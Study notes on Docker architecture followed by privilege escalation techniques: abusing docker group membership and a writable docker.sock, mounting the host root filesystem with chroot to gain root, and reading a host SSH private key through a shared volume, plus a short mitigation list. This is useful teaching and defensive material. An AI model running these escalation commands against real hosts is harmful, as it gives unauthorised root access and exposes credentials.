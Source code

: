 
### **Overview**

- _Docker_ is an open-source platform for **containerization**.
- Encapsulates applications and dependencies into **containers**.
- Offers **portability**, **isolation**, and **efficient resource usage**.

---

### **Docker Architecture**

- **Client-Server Model**
    - _Docker Client_: Interface to issue commands
    - _Docker Daemon_: Executes commands, manages containers

---

### **Docker Daemon Responsibilities**

- Creates, runs, manages containers
- Pulls/stores Docker images from registries
- Captures logs and monitors container activity
- Manages networking and storage (e.g., Docker volumes)

---

### **Docker Clients**

- `docker` CLI: Interacts with daemon via _REST API_ or _Unix socket_
- **Docker Compose**:
    - YAML-based orchestration of multi-container apps
    - Manages dependencies, networking, volumes, etc.
- **Docker Desktop**: GUI for managing containers (MacOS, Windows, Linux)

---

### **Images vs. Containers**

- _Image_: Read-only blueprint with app code, libraries, and config
- _Container_: Runtime instance of an image
- Images are immutable; containers are modifiable and ephemeral

---

## Docker Privilege Escalation Techniques


### **1. Docker Group Membership**

- User in `docker` group can manage containers and potentially escalate privileges
```bash
id
# Look for `docker` group
```

### **2. Shared Directory Abuse**

- Volumes mount host directories into container
- If writable, can access sensitive host files (e.g., SSH keys)
```bash
# Within container:
cat /hostsystem/home/username/.ssh/id_rsa
# Copy and use to SSH into host
```

### **3. Docker Socket Exploitation**

- Docker daemon socket (`docker.sock`) allows container control
- If accessible or writable, it can be used for full host access
```bash
/tmp/docker -H unix:///app/docker.sock ps
/tmp/docker -H unix:///app/docker.sock run --rm -d --privileged -v /:/hostsystem main_app
/tmp/docker -H unix:///app/docker.sock exec -it <container_id> /bin/bash
```
- Inside container, access host filesystem at `/hostsystem`

### **4. Spawning a Privileged Container**

- If Docker is installed and user has permissions:
```bash
docker run -v /:/mnt --rm -it ubuntu chroot /mnt bash
```
- Escalates to root by mounting root filesystem into new container and chrooting into it.

### **5. Writable Docker Socket Abuse**

- Even without group membership, a world-writable `docker.sock` can be abused:
```bash
docker -H unix:///var/run/docker.sock run -v /:/mnt --rm -it ubuntu chroot /mnt bash
```

---

### **Docker Enumeration Commands**
```bash
docker image ls       # List images
docker ps -a          # List running/stopped containers
docker inspect <id>   # View container config
```

---

### **Mitigation**

- Restrict access to `docker` group and `docker.sock`
- Avoid mounting sensitive host directories as read-write
- Use AppArmor/SELinux for container hardening
- Enforce principle of least privilege

